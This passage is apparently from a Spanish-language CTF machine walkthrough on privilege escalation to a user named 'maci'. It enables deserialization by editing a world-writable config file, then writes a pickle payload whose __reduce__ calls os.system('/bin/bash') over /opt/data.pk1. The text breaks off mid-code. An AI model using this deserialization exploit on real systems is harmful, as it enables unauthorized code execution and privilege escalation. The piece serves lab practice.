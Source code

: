 Vemos que podemos ejecutar el script `time.py` como el usuario `maci`, por lo que veremos que contiene dicho script:

```python
```

Vemos que hay un archivo de configuracion el cual permite o no la `deserializacion` por lo que nos iremos aqui:

```shell
cd /home/maci/.time_seri
```

Dentro de esta carpeta veremos que el siguiente archivo tiene permisos de escritura, por lo que podremos modificarle:

```
-rw-r--rw- 1 maci maci   11 Dec 25 17:12 time.conf
```

Cambiaremos el `off` por el `on` para que asi se active y no nos de error el script:

```
serial=on
```

Ahora ejecutamos el script:

```shell
sudo -u maci python3 /home/maci/.time_seri/time.py
```

Info:

```
Datos deserializados correctamente, puedes revisar /tmp
```

Ahora si leemos el archivo que se nos ha creado en el `/tmp` veremos lo siguiente:

```shell
cat /tmp/.data2.log
```

Info:

```
hola maci, es darksblack recuerda terminar la maquina antes que finalice el mes
```

Por lo que vemos esta ejecutando el `data.pk1` serializado, por lo que nosotros podremos serializar un `/bin/bash` para obtener la shell del usuario `maci`.

```shell
cd /tmp
nano data.py

#Dentro del nano
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('/bin/bash',))

# Ruta al archivo que deseas sobrescribir
file_path = '/opt/data.pk1'

# Verificar si el archivo es escribible
if os.access(file_path, os.W_OK):
    with open(file_path, 'wb') as f:
        # Generar el payload y sobrescribir el archivo
        pickle.dump(Exploit(), f)
    print(f"El archivo {file_path} ha sido sobrescrito con el payload.")
else:
```